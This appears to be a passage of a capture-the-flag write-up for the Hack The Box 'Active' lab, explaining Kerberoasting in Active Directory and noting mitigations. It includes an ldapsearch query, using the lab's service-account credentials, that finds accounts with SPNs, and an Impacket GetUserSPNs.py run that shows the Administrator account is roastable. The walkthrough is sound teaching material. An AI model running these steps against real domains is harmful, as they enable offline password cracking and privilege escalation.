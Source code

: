 # Kerberoasting

Kerberos Authentication and Service Principal Names Another common technique of gaining privileges
within an Active Directory Domain is “Kerberoasting”, which is an offensive technique created by Tim Medin
and revealed at DerbyCon 2014.
Kerberoasting involves extracting a hash of the encrypted material from a Kerberos “Ticket Granting
Service” ticket reply (TGS_REP), which can be subjected to offline cracking in order to retrieve the plaintext
password. This is possible because the TGS_REP is encrypted using the NTLM password hash of the account
in whose context the service instance is running. Figure 1 shows the Kerberos authentication process when
interacting with a service instance.

![image](https://github.com/user-attachments/assets/939cd3fe-6e96-4eb2-9c00-fdffb5ab0da0)

Managed service accounts mitigate this risk, due to the complexity of their passwords, but they are not in
active use in many environments. It is worth noting that shutting down the server hosting the service
doesn’t mitigate, as the attack doesn’t involve communication with the target service. It is therefore
important to regularly audit the purpose and privilege of all enabled accounts.

Kerberos authentication uses Service Principal Names (SPNs) to identify the account associated with a
particular service instance. ldapsearch can be used to identify accounts that are configured with SPNs.

We reuse the previous query and add a filter to catch SPNs, (serviceprincipalname=*/*):

```
ldapsearch -x -H 'ldap://10.10.10.100' -D 'SVC_TGS' -w 'GPPstillStandingStrong2k18' -b
"dc=active,dc=htb" -s sub "(&(objectCategory=person)(objectClass=user)(!
(useraccountcontrol:1.2.840.113556.1.4.803:=2))(serviceprincipalname=*/*))"
serviceprincipalname | grep -B 1 servicePrincipalName

dn: CN=Administrator,CN=Users,DC=active,DC=htb
servicePrincipalName: active/CIFS:445
```

It seems that the active\Administrator account has been configured with an SPN.
Impacket’s GetUserSPNs.py lets us request the TGS and extract the hash for offline cracking.

```
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.10.10.100
Impacket v0.10.1.dev1+20230316.112532.f0ac44bd - Copyright 2022 Fortra
Password: GPPstillStandingStrong2k18
SPN Name MemberOf
--------------- ------------- ---------------------------------------------------
active/CIFS:445 Administrator CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
```
